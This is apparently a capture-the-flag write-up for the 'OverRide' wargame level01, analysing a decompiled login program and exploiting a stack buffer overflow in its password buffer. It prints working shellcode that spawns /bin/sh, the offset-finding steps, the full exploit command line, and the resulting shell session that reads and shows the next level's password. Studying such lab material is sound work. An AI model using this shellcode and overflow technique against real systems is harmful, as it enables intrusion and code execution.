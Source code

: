 # Solution

Program used (IDA, gdb-gef)

Here is the decompiled C binary:

```c
char username[100];

int verify_user_name(void)
{
    puts("verifying username....\n");
    return (memcmp(username, "dat_wil", 7) != 0);
}

int verify_user_pass(char *str)
{
    return (memcmp(str, "admin", 5) != 0);
}

int main(void)
{
    int     result; 
    char    passwd[64];

    memset(passwd, 0, sizeof(passwd));
    puts("********* ADMIN LOGIN PROMPT *********");
    printf("Enter Username: ");
    fgets(username, 256, stdin);
    result = verify_user_name();
    if (result)
    {
        puts("nope, incorrect username...\n");
    }
    else
    {
        puts("Enter Password: ");
        fgets(passwd, 100, stdin);
        result = verify_user_pass(passwd);
        puts("nope, incorrect password...\n");
    }
    return (1);
}
```

Here we have multiple overflow `username` buffer but this one is inside the .bss section,
so we will not use this one, the `passwd` buffer is the good one since from this one we can overwrite the return address.

So the exploit is buffer overflow but first we need to pass the `username` buffer and then provide enough data to overflow the buffer,
and overwrite the return address that will point to a shellcode so we can run a shell.

First we need to find the offset of the buffer overflow that will allow us to overwrite the return address,
we will use a de brujin string that will allow us to find this information.

```sh
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
gef➤  x/xw $esp
0xffffcb50:     0x61616176
gef➤  pattern search 0x61616176
[+] Searching for '76616161'/'61616176' with period=4
[+] Found at offset 84 (little-endian search) likely
```

So it found the offset 84 so the padding to overwrite the  address will be 80 byte + 4 byte of address.

Now we need to find an address where will we return to a nop sled and that will lead to our shellcode, 
here is the [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) that we will use.

So we will use the buffer `username` address so our first input would look like this

```sh
python -c 'print "dat_will" + "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'
```

So `dat_will` we saw that the comparaison is on `dat_wil` the extra `l` is for the padding so that it's divisible by 8,
after that we add extra 16 byte of nop sled and then finally the shellcode.


The second input for the `password` buffer, need to received the padding of 80 byte and then the address of 16 byte nop sled,
so it will look like this the return address is packed to 32 bit in little endian:

```sh
python -c 'print "A"*80 + "P\xa0\x04\x08"'
```

Now we need to input both at the same time and need to have a control of stdin at the same time to make it work here is the result:
```sh
level01@OverRide:~$ (python -c 'print "dat_will" + "\x90"*16 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "A"*80 + "P\xa0\x04\x08"'; cat) | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

We have a shell and the flag.
